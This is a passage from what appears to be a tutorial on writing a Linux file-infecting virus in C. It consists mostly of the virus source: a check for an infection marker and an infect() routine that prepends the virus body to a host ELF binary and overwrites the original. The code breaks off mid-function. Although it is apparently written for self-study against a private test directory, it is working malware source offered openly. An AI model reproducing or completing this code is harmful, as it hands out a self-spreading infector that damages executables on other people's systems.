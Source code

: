 Because we're not drastically altering the structure of our virus, I think it's safe to take in all the sights at once:

```C { linenos=true, linenostart=1 }
#define _GNU_SOURCE
#include <sys/mman.h>
#include <sys/stat.h>
#include <sys/sendfile.h>
#include <sys/wait.h>
#include <stdio.h>
#include <stdbool.h>
#include <fcntl.h>
#include <unistd.h>
#include <dirent.h>
#include <libelf.h>

#define VIRUS_SIZE 815986

static unsigned short DARK_MARK = 666;
static char QUARANTINE_WARD[] = "/home/frederic/git/vx/the_zoo";

/*
 * Read the last sizeof(DARK_MARK) bytes of a
 * given file to check if it's already infected.
 */
bool
is_infected(int fd, long file_size)
{
	unsigned short mark;
	int offset;

	offset = file_size - sizeof(DARK_MARK);

	lseek(fd, offset, SEEK_SET);
	read(fd, &mark, sizeof(DARK_MARK));
	lseek(fd, 0, SEEK_SET);

	return mark == DARK_MARK;
}

/*
 * Create an in-memory file via memfd_create().
 * First write the virus part of *this* binary,
 * then the whole *other* binary and lastly the mark to it.
 * Replace the other binary by simply overwriting it
 * with the contents of our temporary file.
 */
void
infect(int myself_fd, int fd, long file_size)
{
	int tmp_fd;
	long final_size;

	tmp_fd = memfd_create("tmp", MFD_CLOEXEC);
	final_size = VIRUS_SIZE + file_size + sizeof(DARK_MARK);

	sendfile(tmp_fd, myself_fd, NULL, VIRUS_SIZE);
	sendfile(tmp_fd, fd, NULL, file_size);
	write(tmp_fd, &DARK_MARK, sizeof(DARK_MARK));

	lseek(myself_fd, 0, SEEK_SET);
	lseek(fd, 0, SEEK_SET);
	lseek(tmp_fd, 0, SEEK_SET);

```
